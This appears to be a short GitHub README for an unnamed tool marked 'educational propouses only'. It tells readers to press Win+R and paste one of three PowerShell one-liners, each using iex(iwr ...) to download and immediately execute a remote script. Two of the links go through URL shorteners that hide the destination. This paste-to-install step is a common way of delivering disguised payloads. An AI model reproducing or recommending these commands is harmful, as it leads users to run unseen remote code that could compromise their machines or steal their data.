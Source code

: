 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
(Fast)

option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"```

option 3:
```powershell "iex(iwr https://raw.githubusercontent.com/MRvinyKing/pythonwgetfilestest/main/z.ps1 -UseB)"``` 
(raw)
